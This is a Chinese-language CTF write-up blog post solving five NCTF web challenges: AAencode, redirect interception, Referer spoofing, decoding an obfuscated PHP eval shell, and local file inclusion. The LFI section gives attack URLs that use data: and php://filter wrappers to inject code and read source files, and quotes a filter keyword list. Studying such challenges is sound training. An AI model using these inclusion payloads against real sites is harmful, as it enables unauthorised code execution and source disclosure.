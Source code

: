 ```yaml
---
layout: post
title: NCTF Web 5 题题解（Part 1）
tags: NCTF Write-up Web
---
```


* 目录：
{:toc}

### 100 AAencode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/*bgOs61*KFAG82G7BTNqrGItjt.ktJ5DEHDJE5kTwZ0!/r/dLAAAAAAAAAA){: width="80%"}  

	> javascript aaencode  
	> [http://115.28.150.176/aaencode.txt](http://115.28.150.176/aaencode.txt)  

* 题解:  
都提示是 JavaScript 了, 用浏览器的 console 跑一下试试看:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/7emM69dnS7ZiLfZmcGMc1mk0P7QN6H3wAiN4oNL7DWc!/r/dK0AAAAAAAAA){: width="100%"}  

* flag：nctf{javascript_aaencode}
<hr>

### 100 单身二十年  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/WYGRVUjGV*Seie8dVvZK0XeWSXdMghMl8ZSTwg7P1MQ!/r/dNwAAAAAAAAA){: width="80%"}  

	> 这题可以靠技术也可以靠手速！  
	> 老夫单身二十年，自然靠的是手速！  
	> 题目地址：[撸了他！](http://chinalover.sinaapp.com/web8/)  

* 题解:  
点第一个页面的链接, 仔细看的话能看出有跳转, 我手速真的很快, 尝试了一次就把中间那张图给截下来了:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/UJ8QZWkWjyr2Hb3Hn2cJ13jGbavVW50o85ufVdzGJ.4!/r/dHwBAAAAAAAA){: width="100%"}  
有跳转当然要用拦截工具了, Fiddler F11:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/4AA5qT.T.175*MSDjRHzZVQth8MBb0ABbzmuMMbdeUg!/r/dAYBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/n1ROW56tMZs59r2zFaCAfmgjNv13*X3dYTDmlSiKLwk!/r/dMYAAAAAAAAA){: width="100%"}  

* flag：nctf{yougotit_script_now}   
<hr>

### 100 你从哪里来  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/v*Uij.KE8SrMaM1tLIqjOglZk28IiVgEd.oIMsd3nn8!/r/dAsBAAAAAAAA){: width="80%"}  

	> 你是从 google 来的吗？   
	> [http://115.28.150.176/referer/index.php](http://115.28.150.176/referer/index.php)

* 题解:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/hTd7cZZ8kw.YdL*gWelw5gm1kdJ*X77oh2Igujh.I5U!/r/dNwAAAAAAAAA){: width="80%"}  
很明显, 改 HTTP requests 中的 `referer`, 可以用 firefox 的 tamper data 插件, 这里还是用 fiddler.    
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/uNpijEofdO0qmGhtguDly8WZGWnz91dZqLYAcHC3QjA!/r/dAoBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/iv38eCVvlcyWeP23wuUlYRV7KIAmzB0eVfMN7SEUQvk!/r/dHwBAAAAAAAA){: width="100%"}  

* flag：nctf{http_referer}   
<hr>

### 100 php decode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/1mXB.qFELl2GEUfhE6ulQMICaWnfaI1LQ7fTvxPlYEk!/r/dAoBAAAAAAAA){: width="80%"}  

	> 见到的一个类似编码的shell，请解码   
	> 
	> ```php   
	<?php
	function CLsI($ZzvSWE) {
		$ZzvSWE = gzinflate(base64_decode($ZzvSWE));
		for ($i = 0; $i < strlen($ZzvSWE); $i++) {
			$ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
		}
		return $ZzvSWE;
	}
	eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
	?>
	> ```  
	> 

* 题解:   
	首先运行题目给的代码, 结果解释器报错:  

	> Parse error: syntax error, unexpected '{' in D:\Course\CTF\NCTF\php decode\decode.php(16) : eval()'d code on line 2  

	那么回来看看出错的代码: `eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));` 
	eval 的参数必须是一个合法的 php 语句, 那么还是先把 eval 的参数输出看看再说, 代码改成
	`echo CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));`, 结果输出如下:

	> 锘縫hpinfo();  
	> flag:nctf{gzip_base64_hhhhhh}  

* flag：nctf{gzip_base64_hhhhhh}   




<hr>

### 150 文件包含  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/tIHjsm6TX.J6ADSq701wt770uWEjWxbA3IpLKPVB504!/r/dK0AAAAAAAAA){: width="80%"}  

	> 没错 这就是传说中的LFI  
	> 传送门[点我带你飞](http://4.chinalover.sinaapp.com/web7/index.php)  
	>   
	> TIPS:[http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)  

* 题解:   
	题目是文件包含, 而且是 LFI, 即本地文件包含, 那应该就不是远程包含一句话这类思路了, 先试试直接写 shell 呢?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>](http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>)  
	结果是:  

	> Oh no!  

	嗯...试试读源码, php 有个特殊协议(其实我也不会php, 提示给的乌云drops很好, 但是乌云已经...:(, php://filter 用于数据流打开时的筛选过滤应用, 如果通过它读取 php 文件并编码成不能正常运行的形式, 就可以得到编码后的源码了, 试试?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php](http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php)
	结果是:  

	> PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpbGU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZSgkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KCj8+CjwvaHRtbD4=  

	base64 解码后:

	> ```  
	> <html>  
	> <title>asdf</title>  
    >  
	> <?php  
	> error_reporting(0);  
	> if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}  
	> $file=$_GET['file'];  
	> if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){  
	>     echo "Oh no!";  
	> exit();  
	> }  
	> include($file);   
	> //flag:nctf{edulcni_elif_lacol_si_siht}  
	> 
	> ?>  
	> </html>  
	> ```  

* flag：nctf{edulcni_elif_lacol_si_siht}
<hr>

<div style="display:inline;float:left">  
	<a href="/2016/10/02/writeup-nctf-web-part-0.html">上 • NCTF Web 5 题题解（Part 0）</a>  
</div>  
<div style="display:inline;float:right">  
	<a href="/2016/10/02/writeup-nctf-web-part-2.html">下 • NCTF Web 5 题题解（Part 2）</a>  
</div>